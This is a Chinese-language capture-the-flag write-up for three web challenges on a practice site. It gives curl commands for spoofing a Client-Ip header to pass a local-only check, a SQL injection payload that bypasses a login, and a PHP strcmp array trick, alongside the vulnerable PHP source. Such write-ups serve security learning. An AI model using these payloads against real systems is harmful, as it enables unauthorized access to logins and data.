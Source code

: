 ## [伪装者](http://chinalover.sinaapp.com/web4/xxx.php)

```html
<html>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

<pre><br><br><br><br>* * * * * * * * * * * * * * * * * * * * * * * * * *<br><br>         管理系统只能在本地登陆<br><br>           本系统外部禁止访问<br><br>* * * * * * * * * * * * * * * * * * * * * * * * * *<br></pre>不是本地登陆你还想要flag？
</html>
```

这里`X-Forwarded-For`不OK，要用`Client-Ip`:
```shell
curl http://chinalover.sinaapp.com/web4/xxx.php -v -H 'Client-Ip: 127.0.0.1'
```

## [SQL注入1](http://chinalover.sinaapp.com/index.php)

不看源代码试不出来

```php
# Source
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
```
因为用了trim，要在`-- `空格的后面加上其它字符，否则注释的作用会失效。
```shell
curl http://chinalover.sinaapp.com/index.php -X POST -d 'user=admin%27%29+--+k&pass=Password'
```

## [pass check](http://chinalover.sinaapp.com/web21/)
```php
# Source
$pass=@$_POST['pass'];
$pass1=***********;//被隐藏起来的密码
if(isset($pass))
{
  if(@!strcmp($pass,$pass1)){
    echo "flag:nctf{*}";
  }else{
    echo "the pass is wrong!";
  }
}else{
  echo "please input pass!";
}
```
当输入参数是一个数组时，strcmp会报错并且无返回：
```shell
curl http://chinalover.sinaapp.com/web21/ -X POST -d 'pass[]='
```
